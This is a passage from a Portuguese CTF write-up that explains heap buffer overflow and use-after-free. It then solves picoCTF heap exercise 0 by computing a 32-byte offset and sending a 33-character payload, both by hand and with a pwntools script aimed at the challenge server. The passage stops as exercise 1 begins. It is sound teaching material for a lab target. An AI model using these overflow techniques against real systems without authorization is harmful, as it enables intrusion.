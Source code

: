 ## Autor: Gebra  
  
# Heap:

A Heap é uma área da memória dinâmica(RAM) usada por programas para alocar e desalocar dados de forma flexível durante a
execução do código. E vamos explorar as seguintes vulnerabilidades: 

1.Buffer Overflow: Ultrapassar o tamanho alocado de memória em uma variável para alterar memória adjacente. 

2.UAF(Use After Free): Programa Acessa bloco de memória já liberado, permitindo a modificação dos dados.

## Exercício 0:
### Resolução via terminal:
Esse exercício foi projetado para ser de estágio inicial, por isso a Heap pode ser visualizada dentro do próprio código.
```python
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
```

Executando o código, é possivel descobrir os endereços de cada variável na heap.

![image](https://github.com/user-attachments/assets/655c496d-9e70-4afd-9f06-bb07769e6609)


Com esses dados, podemos verificar as distância entre os endereços e conseguir o offset dos dois, assim descobrimos que é 
32 bytes e que precisamos fazer um estouro desse tamanho.
Digitando esse comando no cmd, você receba a string de 33 caracteres pronta para teste.
    
    python3 -c 'print("a"*33)'

Colocando essa string como input do buffer você irá sobrescrever "pico" por "a"*32 e "bico" por "a". 
![image](https://github.com/user-attachments/assets/0c9ee24a-26aa-453a-9832-a249eb25d012)


Assim você consegue a flag ao digitar 4.

### Resolução via pwntools:
![image](https://github.com/user-attachments/assets/a63b90a8-f8c8-4770-8b1f-8519f5ac2077)


Criamos p como process para teste e depois partimos para o remote onde conseguiremos a flag verdadeira.
```python
    p = remote("tethys.picoctf.net", 55850)
```
Depois Criamos um payload para enviar para o código.
```python
    payload = "a" * 33
```
Depois enviamos o payload para o código e recebemos a flag.
```python
    p.recvuntil("choice:")

    p.sendline("2")
    p.sendline(payload)
    
    p.recvuntil("choice:")
    p.sendline("4")

    print(p.recvall())
```


## Exercício 1:
Para o restante dos exercícios vou explicar apenas pelo pwntools para acostumarmos com essa ferramenta.

